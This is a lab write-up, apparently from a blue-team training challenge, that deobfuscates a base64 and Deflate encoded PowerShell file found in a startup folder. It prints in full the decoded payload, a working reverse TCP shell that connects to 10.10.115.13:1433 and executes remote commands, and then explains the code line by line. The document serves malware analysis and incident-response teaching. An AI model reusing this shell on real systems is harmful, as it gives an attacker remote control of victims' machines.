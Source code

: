 ```yaml
---
title: "PowerShell "
classes: wide
header:
  teaser: /assets/images/Tutorials/path.jpg
ribbon: DodgerBlue
description: "Obfuscated PowerShell walk-through..."
categories:
 - Tutorials
toc: true
---
```


## Scenario
Analyst!

We found this in a startup folder on a user's host. Sheesh.

This thing makes my brain hurt just by looking at it. Can you figure this out for us, please?

Thanks,

IR Team

---
## file investigation

At first look, I found the lab provides a zip file and a Readme file where the scenario is written. On extracting the file and opening it in VSCode, I found that it seemed like **PowerShell code** so changed the extension to ps1.

![FL](/assets/images/Tutorials/PS-Walk_Through/FL.png)

As you can see the iEx command means to invoke what is coming next and the pipe which makes sense that the code has two parts.

## Deobfuscation
let's break the code. `iEx(nEW-ObJECt  Io.CoMpRESSiOn.defLaTEstReam([iO.memoRYStREam][sYsteM.coNvert]::FROmbaSe64StRiNG` this part has the invoce instruction but what shall be invoced?!!
If you look from a good perspective you will find that this line performs the **Deobfuscation**. First `[system.convert]::FROmbaSe64StRiNG` retrieves the string from B64 then `[io.memoryStream]` creates a new MemoryStream object in which the decoded byte array will be stored. At last `new-Object io.compression.deflateStream` creates a new DeflateStream object used to decompress data that has been compressed using the Deflate algorithm. so it would be really easy to decode the strange part leave it now.
I would prefer to have a look at what resides after the pipe `% {nEW-ObJECt SYsteM.Io.strEAmReAder($_,[SysTEm.TExT.eNCoDIng]::aSCIi) }| % { $_.reaDtoEnD()}` that simply will read data from a stream and outputs the entire content as a string.
So now we need to know what is the stream, For that mission, I would try PowerShell itself but I must at first remove the invoke `iEx` and then store the rest script in the new var.

![FR](/assets/images/Tutorials/PS-Walk_Through/fr.png)

As long as there is no error, we are good ;). So let's see what has been stored in that var.

![content](/assets/images/Tutorials/PS-Walk_Through/content.png)

that's a piece of good news we found our destination.

```powershell

########################################################################";
#                                                                      #";
#                        PowerShell Reverse TCP v3.5                   #";
#                                          by Ivan Sincek              #";
#                                                                      #";
# GitHub repository at github.com/ivan-sincek/powershell-reverse-tcp.  #";
# Feel free to donate bitcoin at 1BrZM6T7G9RN8vbabnfXu4M6Lpgztq6Y14.   #";
#                                                                      #";
#########################################################################";


$client = $null;
$stream = $null;
$buffer = $null;
$writer = $null;
$data = $null;
$result = $null;
try {
 $ip = "10.10.115.13"
 $port = 1433
 $client = New-Object Net.Sockets.TcpClient($ip, $port);
 $stream = $client.GetStream();
 $buffer = New-Object Byte[] 1024;
 $encoding = New-Object Text.AsciiEncoding;
 $writer = New-Object IO.StreamWriter($stream);
 $writer.AutoFlush = $true;
 $bytes = 0;
 do {
 $writer.Write("PS>");
 do {
 $bytes = $stream.Read($buffer, 0, $buffer.Length);
 if ($bytes -gt 0) {
 $data = $data + $encoding.GetString($buffer, 0, $bytes);
 }
 } while ($stream.DataAvailable);
 if ($bytes -gt 0) {
 $data = $data.Trim();
 if ($data.Length -gt 0) {
 try {
 $result = Invoke-Expression -Command $data 2>&1 | Out-String;
 } catch {
 $result = $_.Exception | Out-String;
 }
 Clear-Variable -Name "data";
 $length = $result.Length;
 if ($length -gt 0) {
 $count = 0;
 do {
 if ($length -ge $buffer.Length) { $bytes = $buffer.Length; } else { $bytes = $length; }
 $writer.Write($result.substring($count, $bytes));
 $count += $bytes;
 $length -= $bytes;
 } while ($length -gt 0);
 Clear-Variable -Name "result";
 }
 }
 }
 } while ($bytes -gt 0);
} catch {
 $_.Exception.InnerException.Message;
} finally {
 if ($writer -ne $null) {
 $writer.Close();
 $writer.Dispose();
 Clear-Variable -Name "writer";
 }
 if ($stream -ne $null) {
 $stream.Close();
 $stream.Dispose();
 Clear-Variable -Name "stream";
 }
 if ($client -ne $null) {
 $client.Close();
 $client.Dispose();
 Clear-Variable -Name "client";
 }
 if ($buffer -ne $null) {
 $buffer.Clear();
 Clear-Variable -Name "buffer";
 }
 if ($result -ne $null) {
 Clear-Variable -Name "result";
 }
 if ($data -ne $null) {
 Clear-Variable -Name "data";
 }
 [System.GC]::Collect();
}
```
## Code illustration

To understand this let's break it into small parts, the code has four parts:

1- Script Information Block: The initial block is a comment section providing metadata about the script such as version, author, GitHub repository, and donation address.
2- Variable Initialization: $client, $stream, $buffer, $writer, $data, and $result are initialized to $null
3- Try Catch Block:
that's the most interesting block where the script tries to establish a TCP connection with C2.
first set port and ip `10.10.115.13 : 1433` then establish TCP connection:
- $client is created as a new TCP client connecting to the specified IP and port.
- $stream is obtained from the TCP client to facilitate data transmission.
- $buffer is a byte array of size 1024 to store incoming data.
- $encoding is set to ASCII encoding.
- $writer is an IO.StreamWriter for writing data to the stream with AutoFlush set to $true.
after that the script enters a do loop which continually prompts the remote user with "PS>" and waits for commands, reads incoming data from the stream into the buffer until no more data is available and converts the byte data to a string using ASCII encoding and appends it to **$data**.
after that enters the inner loop, if $data is not empty, it attempts to execute the PowerShell command using Invoke-Expression, captures the output or exception into $result and finally clears $data.

Of course, if there is an exception that is where the catch comes to act.

Finally Block: finally, loses and disposes of the writer, stream, client, and clears all variables and Forces garbage collection with  `[System.GC]::Collect()`.

## Conclusion

In this investigation, we analyzed an obfuscated PowerShell script found in a user's startup folder. The script, once deobfuscated, revealed itself as a PowerShell reverse TCP script by Ivan Sincek, designed to allow remote command execution on the compromised host.

### Key Findings
Obfuscation:
The script uses base64 decoding and Deflate compression to hide its true function.
Deobfuscation revealed the script's purpose and content.

Functionality:
Establishes a TCP connection to a remote IP (10.10.115.13) on port 1433.
Reads commands from the attacker, executes them and sends back the results.

**Code Structure:**

Initialization: 
Sets up variables and TCP connection.
Command Execution Loop: Continuously reads and executes remote commands.
Cleanup: Handles exceptions and disposes of resources.

##
- VSCode
- Cmder

#### Written by

## *Karim Gomaa*
